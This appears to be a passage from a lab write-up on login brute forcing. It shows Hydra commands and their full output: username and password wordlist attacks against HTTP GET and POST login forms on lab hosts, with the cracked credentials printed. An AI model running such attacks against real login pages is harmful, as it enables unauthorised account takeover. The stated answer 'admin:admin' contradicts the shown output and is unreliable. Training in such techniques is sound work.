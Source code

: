 *Hint: Use the same answer as the previous question!*

```
┌──(kali㉿kali)-[~]
└─$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p amormio -u -f 46.101.47.107 -s 31657 http-get /login.php                                                
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 05:24:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10177 login tries (l:10177/p:1), ~637 tries per task
[DATA] attacking http-get://46.101.47.107:31657/login.php
[31657][http-get] host: 46.101.47.107   login: aartjan   password: amormio
[STATUS] attack finished for 46.101.47.107 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 05:24:21
```

**Answer:** `admin:admin` 	

---
## Login Brute Forcing
### Question:
![](./attachments/Pasted%20image%2020220709102007.png)

```
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -f 134.209.17.29 -s 31027 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 05:57:06
[DATA] max 16 tasks per 1 server, overall 16 tasks, 59185 login tries (l:1/p:59185), ~3700 tries per task
[DATA] attacking http-post-form://134.209.17.29:31027/login.php:username=^USER^&password=^PASS^:F=<form name='login'
[31027][http-post-form] host: 134.209.17.29   login: admin   password: password1
[STATUS] attack finished for 134.209.17.29 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 05:57:08
```
